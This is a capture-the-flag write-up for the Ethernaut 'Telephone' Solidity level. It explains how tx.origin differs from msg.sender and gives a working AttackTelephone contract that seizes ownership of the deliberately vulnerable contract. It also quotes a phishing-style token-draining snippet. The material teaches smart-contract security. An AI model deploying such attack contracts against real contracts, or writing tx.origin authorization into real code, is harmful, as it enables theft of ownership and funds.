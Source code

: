 # Telephone

![https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg)

# Objectives

Claim ownership of the contract

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Analysis

`owner` can be assigned in two places in this contract. One in the `constructor()` and the other in the `changeOwner` function. Since constructor has already been invoked during the deployment of the contract, that leaves us with the `changeOwner` function.

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

This function takes the `address` of the `msg.sender` and assigns it to be the `owner` of the contract. However it requires `tx.origin` not to be the `msg.sender`. So what are these values?

## What is `tx.origin` and `msg.sender`?

In solidity, `tx.origin` is the original external account that created the transaction. This global value is passed along different function calls to other contracts. But `msg.sender` is the account (smart contract or external) that made the call of the function.

Example - 

If Alice sends a transaction to contract A, contract A sees the address of Alice as `msg.sender` and `tx.origin`. If contract A sends a message (call) to contract B, B sees the contract A’s address as `msg.sender` and Alice’s address as `tx.origin`.

```
Alice --> Contract A
					msg.sender = Alice
					tx.origin = Alice

Contract A --> Contract B
								msg.sender = Contract A
								tx.origin = Alice
```

In Summary, 

`tx.origin` is like the root or highest level caller, and

`msg.sender` is the immediate caller

Now that we understand what is `tx.origin` and `msg.sender`, and what are the differences between them. It is pretty clear that we can exploit the contract using this loophole.

# AntiSec

The hack is pretty much simple and straight forward. We will exploit the contract by using the `tx.origin != msg.sender` loophole. All we have to do is write a malicious contract, pass the contract address of the `Telephone` contract and call the `changeOwner` function from our malicious contract. In which case, the `tx.origin` and `msg.sender` won’t be same and we will own the contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract AttackTelephone {

    Telephone telephone;
    address public owner;

    constructor(address _victimAddress) {
        owner = msg.sender;
        telephone = Telephone(_victimAddress);
    }

    function attack() public {
        telephone.changeOwner(owner);
    }
}
```

Once the transaction goes through, we can check if we are the new owner of the contract by

```jsx
await contract.owner()
```

# Key Takeaways

<aside>
💡 While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
</aside>

The above message is quoted by OpenZeppelin. In addition to that, I will just leave a link to one of [Vitalik Buterin](https://ethereum.stackexchange.com/users/188/vitalik-buterin)’s response in [ethereum.stackexchange.com](http://ethereum.stackexchange.com/) - 

> 1. Do NOT rely on very fine-grained calculations of current gas costs. Assume that gas costs of contract calling may go up or down by up to an order of magnitude in a future hard fork.
> 2. If creating contracts in assembly (ie. not serpent, solidity or LLL), do NOT use dynamic JUMP/JUMPI operations (ie. every JUMP/JUMPI should be **immediately preceded** by a PUSH value specifying the exact point in the code to jump to)
> 3. Do NOT do anything important based on the DIFFICULTY opcode.
> 4. Do NOT rely on the assumption of a block time between 12-20 seconds.
> 5. Do NOT assume that BLOCKHASHes will be a reliable source of randomness.
> 6. Do NOT assume that tx.origin will continue to be usable or meaningful.
> 7. Do NOT assume that opcodes other than 0xfe will continue to be invalid.
> 
> It's not certain that all of those steps will be required, or that they will be sufficient, but that should get you most of the way there.

>https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof
